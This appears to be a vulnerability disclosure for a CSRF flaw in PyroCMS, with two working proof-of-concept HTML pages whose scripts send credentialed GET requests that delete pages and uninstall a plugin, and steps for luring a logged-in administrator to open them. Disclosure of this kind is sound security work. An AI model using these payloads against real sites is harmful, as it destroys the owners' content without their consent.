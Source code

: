 # Description

`pyrocms/pyrocms` is vulnerable to `Cross-site Request Forgery (CSRF)` via the `admin/pages/delete/` URI: pages will be deleted. Also via the admin/addons/uninstall/anomaly.module.blocks URI: an arbitrary plugin will be deleted.

Due to action is performed via GET request. An attacker can leverage this vulnerability by creating a form and host this form on his server and share this link to victims through social engineering methods. Once the victims who are already authenticated to the PyroCMS, click upon the link, unintended actions will be performed on the victim's behalf and Pages/plugins will be deleted.


# Steps To Reproduce-:  

Create a page with below content.

```
<!DOCTYPE>
<html>
<head>
    <title></title>
    <script type="text/javascript">
                        // to delete pages.
                        // it's in your hand to delete number of pages.
        var url = "http://test.com/admin/pages/delete/"
        for (var i = 1; i <= 13 ; i++) { 
            var url1 = url+i;
            xhr = new XMLHttpRequest();
            xhr.open("GET",url1);
            xhr.withCredentials = true;
            xhr.send(null);
        }
    </script>
</head>
<body>
<--html content here--!>
</body>
</html>
```

* Send to the victim (who is authenticated on PyroCMS as administrator) and once the victim clicks on the link, pages will be deleted.

```
<!DOCTYPE>
<html>
<head>
    <title></title>
    <script type="text/javascript">
    // to delete any plugin
              var url = "http://test.com/admin/addons/uninstall/anomaly.module.blocks"
        xhr = new XMLHttpRequest();
        xhr.open("GET",url);
        xhr.withCredentials = true;
        xhr.send(null);
    </script>
</head>
<body>
<--html content here --!>
</body>
</html>
```

* Send to the victim (who is authenticated in PyroCMS as administrator) and once the victim clicks on the page, the arbitrary plugin will be deleted.